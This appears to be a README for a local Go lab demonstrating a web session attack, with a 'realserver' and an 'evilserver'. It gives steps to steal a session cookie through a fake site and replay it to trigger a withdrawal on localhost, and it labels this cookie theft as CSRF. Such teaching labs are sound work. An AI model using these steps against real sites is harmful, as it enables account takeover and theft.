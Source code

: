 # Cross-Site Request Forgery (CSRF) attack demo

Cross-Site Request Forgery (CSRF) attack demo.

Start the `./realserver` module:

```sh
go get
go run .
```

Open a separate terminal session and start the malicious `./evilserver` server:

```sh
go run .
```

```sh
curl --cookie "SESSION_COOKIE=TestCookie123" \
    localhost:3666/cookies
```

Login to the real server: 

```
http://localhost:3000/login
```

This will generate a login token called `SESSION_TOKEN`.

Now, an attacker that is able to spoof the DNS could make the user navigate to a fake website and extract sensitive data. Example:

```
http://localhost:3666/cookies
```

After extracting the cookie, the attacker could then use the session identification to invoke the real server pretending to be the real user:

```
http://localhost:3000/withdraw=10000
```
